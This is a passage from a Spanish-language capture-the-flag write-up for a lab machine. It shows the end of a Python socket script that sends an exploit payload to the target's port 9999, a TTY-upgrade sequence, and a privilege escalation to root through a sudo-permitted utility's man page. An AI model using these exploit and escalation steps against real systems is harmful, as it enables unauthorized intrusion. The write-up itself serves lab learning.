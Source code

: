 ```python

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.240.207", 9999))
s.send(payload)
s.close
```

>Ahora, podemos ver que hemos ganado acceso a la máquina original y, como podemos ver, se trata de un Ubuntu quantal:

```bash
lsb_release -a
```

![Pasted image 20240822091542](https://github.com/user-attachments/assets/bc0c29c3-e1b4-4e73-b258-21cc6a17a995)



>Ahora vamos a realizar un tratamiento de la TTY para obtener una shell 100% interactiva pudiendo emplear shortcuts:

```bash
script /dev/null -c bash
Ctrl+Z
stty size
stty -echo raw; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows numFilas columns numColumnas
```

# Escalada de privilegios

>Si empleamos el siguiente comando, podremos ver que el usuario puck puede lanzar el binario anansi_util como root sin proporcionar contraseña:

```bash
sudo -l
```

![Pasted image 20240822092238](https://github.com/user-attachments/assets/09a1fa6d-437b-424d-9d3b-9122c6f05200)

>Como podemos ver, esta utilidad nos lanza un manual de un comando de la siguiente forma, por lo que como quien lanza el comando será root podremos escalar privilegios gracias a la ventana de manual:

```bash
sudo /home/anansi/bin/anansi_util manual ls
```

![Pasted image 20240822092323](https://github.com/user-attachments/assets/a105df1d-4a8a-4821-b970-2641fa0f1b29)

>Si una vez abierto el manual, escribimos lo siguiente, conseguiremos una shell como el usuario root:

```bash
!/bin/bash
```
